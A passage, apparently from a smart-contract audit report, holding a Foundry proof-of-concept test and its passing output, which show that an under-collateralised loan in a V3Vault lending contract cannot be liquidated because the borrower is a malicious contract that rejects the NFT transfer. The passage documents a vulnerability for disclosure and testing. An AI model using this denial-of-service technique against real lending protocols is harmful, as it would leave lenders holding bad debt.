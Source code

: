 ```solidity
        
        // ignore difference
        oracle.setMaxPoolPriceDifference(10001);

        // assert that debt is greater than collateral value (position is liquidatable now)
        (debt, , collateralValue, liquidationCost, liquidationValue) = vault.loanInfo(TEST_NFT);
        assertGt(debt, collateralValue);

        (uint256 debtShares) = vault.loans(TEST_NFT);

        vm.startPrank(WHALE_ACCOUNT);
        USDC.approve(address(vault), liquidationCost);

        // This fails due to malicious owner. So under-collateralised position can't be liquidated. DoS!
        vm.expectRevert("ERC721: transfer to non ERC721Receiver implementer");
        vault.liquidate(IVault.LiquidateParams(TEST_NFT, debtShares, 0, 0, WHALE_ACCOUNT, ""));
    }

    function custom_setupBasicLoan(bool borrowMax, address borrower) internal {
        // lend 10 USDC
        _deposit(10000000, WHALE_ACCOUNT);  

        // Send the test NFT to borrower account
        vm.prank(TEST_NFT_ACCOUNT);
        NPM.transferFrom(TEST_NFT_ACCOUNT, borrower, TEST_NFT);

        uint256 tokenId = TEST_NFT;

        // borrower adds collateral 
        vm.startPrank(borrower);
        NPM.approve(address(vault), tokenId);
        vault.create(tokenId, borrower);

        (,, uint256 collateralValue,,) = vault.loanInfo(tokenId);

        // borrower borrows assets, backed by their univ3 position
        if (borrowMax) {
            // borrow max
            vault.borrow(tokenId, collateralValue);
        }
        vm.stopPrank();
    }
```

Terminal output:

```
Ran 1 test for test/integration/V3Vault.t.sol:V3VaultIntegrationTest
[PASS] test_preventLiquidation() (gas: 1765928)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 473.56ms
```
